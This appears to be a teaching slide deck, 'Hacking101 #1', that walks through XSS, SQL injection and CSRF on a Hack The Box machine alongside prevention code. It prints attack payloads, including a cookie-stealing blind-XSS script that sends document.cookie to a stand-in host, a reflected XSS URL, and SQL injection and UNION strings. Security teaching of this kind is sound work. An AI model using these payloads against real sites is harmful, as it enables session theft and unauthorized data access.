




--- title
# Hacking101 #1\nXSS, SQL Injection & CSRF
Yannick · November 2021

---
# Contents
- Sources
- Requirements
- MITRE Recap
- Live Hacking: XSS (Cross-Site Scripting), SQL Injection, CSRF (Cross-Site Request Forgery)
- MITRE Prospect

---
# Sources

---
# Sources
- Hack The Box (hackthebox.eu): great for cert prep (OSCP etc.), tons of VMs with good tutorials via ippsec.rocks, hard for beginners but improving
- TryHackMe (tryhackme.com): good guidance for beginners, better structured
- Google Fu
- hackertyper.net

---
# Sources
- Today's box: Bankrobber (HTB)

---


---
# Requirements

---
# Requirements
- Black hoodie

---


---
# Requirements
- Linux machine running one of: Kali Linux, ParrotOS, BlackArch, or equivalent

---
# Requirements
- Hacker stickers (at least one Mr. Robot reference)

---


---
# Requirements
- Green-on-black terminal color scheme

---


---
# Requirements
- Just kidding — use whatever you like (except Windows)

---
# MITRE Recap

---
# MITRE Recap
- Out-of-bounds Write
- Cross-Site Scripting (covered today)
- Out-of-bounds Read
- Improper Input Validation (touched on today)
- OS Command Injection (touched on today)
- SQL Injection (covered today)
- Use After Free
- Path Traversal
- Cross-Site Request Forgery (covered today)
- Unrestricted Upload of File with Dangerous Type
- Missing Authentication for Critical Function
- Integer Overflow or Wraparound

---
# MITRE Recap
- Deserialization of Untrusted Data
- Improper Authentication (touched on today)
- NULL Pointer Dereference
- Use of Hard-Coded Credentials (core topic of this series)
- Improper Restriction of Operations within the Bounds of a Memory Buffer
- Missing Authorization
- Incorrect Default Permissions
- Exposure of Sensitive Information to an Unauthorized Actor
- Insufficiently Protected Credentials (touched on today)
- Incorrect Permission Assignment for Critical Resource
- Improper Restriction of XML External Entity Reference
- Server-Side Request Forgery
- Command Injection

---
# Live Hacking

---
# Different Kinds of XSS
- Reflected XSS: the application receives data in an HTTP request
- The data sent is included ("reflected") back in the response
- Example: https://10.10.10.154/index.php?msg=User%20created.
- Possible reflected XSS payload: https://10.10.10.154/index.php?msg=<script>some.evil.javaScript()</script>

---
# How to Prevent Reflected XSS
```go
func main() {
	// value recieved from query args
	query_msg := "<b>Evil Hacker Script!</b>"

	// Print as substitute for echoing message on Web Page
	fmt.Printf("Dangerous: \n- %s\n\n", query_msg)

	fmt.Printf("Save: \n- %s\n", html.EscapeString(query_msg))
}
```

---
# Different Kinds of XSS
- Stored XSS (also called Persistent XSS)
- Scripts are stored on the server (databases, forums, "About Me" fields)
- Triggered by users, applications, or backdoors
- Special form: Blind XSS — a malicious script is sent to the backend/admin, e.g. via a review or feedback form, and executes once the form is opened

--- mixed
# Possible Scripts for Blind XSS

## PayloadsAllTheThings Data Grabber

```html
<script>document.location='http://localhost/XSS/?c='+document.cookie</script>
```

Spoiler: won't work (maybe src string concatenation isn't allowed)

## IMG onerror Payload

```html

```

Since JS is not allowed (black-flagged) in img src, we can trigger it via the onerror event instead

--- mixed
# What Did They Do Wrong?
To be honest, this is pretty CTF-ified.

On the user side:

```php
$comment = urlencode($_POST['comment']);
```

On the admin side:

```php
if ($_SERVER['REMOTE_ADDR'] == "::1") {
    $row[4] = urldecode($row[4]);
} else {
    $row[4] = htmlentities(urldecode($row[4]));
}
```

---
# How to Prevent XSS in General
- All user data is untrusted
- Never put untrusted data directly into an HTML document
- If it's really needed, HTML/JS/CSS-encode the data first
- URL-encode request URL parameters
- Quote untrusted data in HTML attributes — quoted attributes can only be broken out of with " or '; unquoted attributes can also be broken with space % * + , - / ; < = > ^ and |
- Don't try to do this yourself — use libraries

---
# SQL Injection

--- mixed
# SQL Injection Basics
## What Happened?
Basic SQL query:

```sql
SELECT username FROM users WHERE password == 'password'
```

SQL injection:

```sql
SELECT username FROM users WHERE password == '' OR 1=1-- -'
```

---
# SQL Union Injection

```sql
SELECT * from users WHERE id = '1'
```

| ID | User | Password |
|---|---|---|
| 1 | Admin | Hopelessromantic |

The vulnerable query, with its normal result.

---
# SQL Union Injection

```sql
SELECT * from users WHERE id = '1' union select 0,evil stuff,0;-- -'
```

| ID | User | Password |
|---|---|---|
| 1 | Admin | Hopelessromantic |
| 0 | evil stuff | 0 | danger |

A UNION injection appends an attacker-controlled row to the result set.

--- mixed
# How to Prevent SQL Injection (PHP)
## What Did They Do Wrong?
Recently exploited: search.php

```php
$stmt = $pdo->query("SELECT * from users WHERE id = '$term'");
```

Failed to exploit: login.php

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

--- mixed
# How to Prevent SQL Injection (Go)
Dangerous:

```go
db.Query(fmt.Sprintf("SELECT * FROM user WHERE id = '%s'", id))
```

Safe:

```go
db.Query("SELECT * FROM user WHERE id = ?", id)
```

---
# What's That Weird Backdoorchecker???

---
# backdoorchecker.php Attack


--- mixed
# Cross-Site Request Forgery
"The web application does not, or cannot, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted it."

- We forged a request using JavaScript
- The request was sent from the admin's browser via XSS
- The web application verified the admin as the request's submitter
- The web application didn't notice the attacker at all
- Definition of CSRF? Check.

Classic real-life CSRF differs a bit, but the prevention is the same.

---
# Prevent CSRF (XSRF)
- Use well-known, well-tested frameworks
- Generate CSRF tokens
- Don't transmit tokens/credentials via cookies
- Use session variables or hidden form fields instead

---
# MITRE Prospect
- Out-of-bounds Write — hard to explain, not very relevant for Go/Java
- Cross-Site Scripting (already covered)
- Out-of-bounds Read — same as out-of-bounds write
- Improper Input Validation (we kind of covered that)
- OS Command Injection (we kind of covered that)
- SQL Injection (already covered) — could also look at NoSQL injection
- Use After Free — similar to out-of-bounds read/write
- Path Traversal
- Cross-Site Request Forgery (already covered)
- Unrestricted Upload of File with Dangerous Type — check the magic bytes
- Missing Authentication for Critical Function (kind of covered)
- Integer Overflow or Wraparound — didn't find good exploits, more of a bug class

---
# MITRE Prospect
- Deserialization of Untrusted Data — good examples in Java
- Improper Authentication (kind of covered)
- NULL Pointer Dereference — mostly DoS/script-kiddie stuff, write tests!
- Use of Hard-Coded Credentials (highlighted topic)
- Improper Restriction of Operations within the Bounds of a Memory Buffer — same as out-of-bounds read/write
- Missing Authorization — mostly self-explanatory
- Incorrect Default Permissions — could dive into enumeration scripts
- Exposure of Sensitive Information to an Unauthorized Actor — think three times!
- Insufficiently Protected Credentials — could do more cracking/crypto stuff
- Incorrect Permission Assignment for Critical Resource — similar to Incorrect Default Permissions
- Improper Restriction of XML External Entity Reference — similar to XSS
- Server-Side Request Forgery — similar to CSRF but could go deeper
- Command Injection (kind of covered)

---
# Sources
- Slides (git): https://github.com/y-peter/HackingTalks
- Prevent XSS: OWASP Cross-Site Scripting Prevention Cheat Sheet (https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- Prevent CSRF: OWASP Cross-Site Request Forgery Prevention Cheat Sheet (https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- MySQL UNION clause docs (https://dev.mysql.com/doc/refman/8.0/en/union.html)
- HTB tutorials: ippsec.rocks (https://ippsec.rocks)
- Tools and scripts used today: PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings), Netcat (https://github.com/int0x33/nc.exe), Burp Suite (https://portswigger.net/burp), FoxyProxy (any browser proxy plugin works), and the MVC ("Most Valuable Command"): python -m http.server
